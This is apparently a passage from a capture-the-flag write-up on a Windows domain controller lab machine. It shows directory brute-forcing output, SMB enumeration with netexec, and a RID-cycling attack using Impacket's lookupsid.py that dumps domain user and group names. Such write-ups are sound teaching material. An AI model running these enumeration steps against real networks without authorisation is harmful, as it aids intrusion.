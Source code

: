 ```
[####################] - 55s    26584/26584   480/s   http://10.10.11.236/js/ 
[####################] - 55s    26584/26584   480/s   http://10.10.11.236/images/ 
[####################] - 55s    26584/26584   481/s   http://10.10.11.236/css/ 

```

Nothing interesting.

### SMB - TCP 445

`netexec` shows the same domain and hostname:

```

oxdf@hacky$ netexec smb 10.10.11.236 
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)

```

I can’t enumerate shares with no user, and a bad user does seen to get some auth, but then can’t list shares either:

```

oxdf@hacky$ netexec smb 10.10.11.236 --shares
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] Error getting user: list index out of range
SMB         10.10.11.236    445    DC01             [-] Error enumerating shares: STATUS_USER_SESSION_DELETED
oxdf@hacky$ netexec smb 10.10.11.236 --shares -u 0xdf -p 0xdf
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\0xdf:0xdf 
SMB         10.10.11.236    445    DC01             [-] Error enumerating shares: STATUS_ACCESS_DENIED

```

Given that some kind of null auth is allowed here, I can try a RID cycling attack, by bruteforcing Windows user security identifiers (SIDs) by incrementing the relative identifier (RID) part. The [Impacket](https://github.com/SecureAuthCorp/impacket) script `loopupside.py` will do this nicely:

```

oxdf@hacky$ lookupsid.py 0xdf@manager.htb -no-pass
Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

[*] Brute forcing SIDs at manager.htb
[*] StringBinding ncacn_np:manager.htb[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4078382237-1492182817-2568127209
498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: MANAGER\Administrator (SidTypeUser)
501: MANAGER\Guest (SidTypeUser)
502: MANAGER\krbtgt (SidTypeUser)
512: MANAGER\Domain Admins (SidTypeGroup)
513: MANAGER\Domain Users (SidTypeGroup)
514: MANAGER\Domain Guests (SidTypeGroup)
515: MANAGER\Domain Computers (SidTypeGroup)
516: MANAGER\Domain Controllers (SidTypeGroup)
517: MANAGER\Cert Publishers (SidTypeAlias)
518: MANAGER\Schema Admins (SidTypeGroup)
519: MANAGER\Enterprise Admins (SidTypeGroup)
520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
```